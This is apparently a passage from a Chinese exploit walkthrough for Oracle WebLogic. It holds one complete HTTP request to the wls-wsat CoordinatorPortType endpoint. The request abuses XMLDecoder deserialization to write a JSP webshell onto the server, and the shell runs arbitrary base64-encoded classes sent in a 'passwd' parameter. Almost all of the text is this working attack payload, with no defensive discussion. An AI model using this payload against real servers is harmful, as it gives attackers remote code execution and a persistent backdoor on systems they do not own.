 还可以上传 webshell，发送如下请求：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 1572


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter">
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

